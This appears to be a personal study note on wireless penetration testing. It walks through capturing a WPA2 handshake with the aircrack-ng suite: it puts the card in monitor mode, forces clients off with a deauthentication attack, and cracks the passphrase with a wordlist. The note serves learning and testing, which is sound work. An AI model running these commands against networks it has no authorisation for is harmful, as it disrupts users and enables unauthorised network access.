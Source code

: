 Wireless Penetration Test

Assessment of a wireless network:

1. WPA2 PSK(Pre Share Key): Password that you type in order to connect to the network at your home. 
2. WPA2 Enterprise: That will use something called RADIUS or some sort of credentials to log into the network, and that is a more advanced environment. 

Activities Performed:

1. Evaluating strength of PSK
2. Reviewing nearby networks
3. Assessing guest networks
4. Checking network access

Tools being used:

1. Wireless card: Alfa AWUD036NH
2. Router: tp-link AC2300 Wireless
3. Laptop

A wireless card is something which is used to inject packets and listen to packets

Hacking Process:

1. Place: Place wireless card into monitor mode.
2. Discover: Discover information about network:
	1. Channel
	2. BSSID([[MAC Addresses |MAC Address]])
3. Select: Select network and capture data.
4. Perform: Perform deauth attack.
5. Capture: Capture WPA handshake.
6. Attempt: Attempt to crack the handshake.

When you connect the wireless card to your kali machine, you can check whether it has connected successfully using the following command on terminal:

```bash
iwconfig
```

We need to place our wireless card in monitor mode. 

```bash
airmon-ng check kill
```

```bash
airmon-ng start wlan0
```

Next we can search the surrounding area and see where the network we want to attack is:

```shell
airodump-ng wlan0mon
```

The lower the -ve number is in the PWR, the closer to we are to the device. 

Once we know what channel we need to hit, we can narrow down our searches by using this command:

```bash
airodump-ng -c 6 --bssid <MAC> -w capture wlan0mon
```

We can speed this process up by using a deauth attack, which basically means we are kicking someone out of the network for a short period of time. So what happens is, when a client re-associates, we capture his handshake and that is what we want.

We can do the deauth attack by:

```bash
aireplay-ng -0 1 -a <MAC> -c <Station> wlan0mon
```

You dont want to deauth the same client over and over.

You can then use the capture to find the passphrase for the network you're trying to connect to:

```bash
aircrack-ng -w <path_of_wordlist> -b <MAC> <name_of_capture>
```

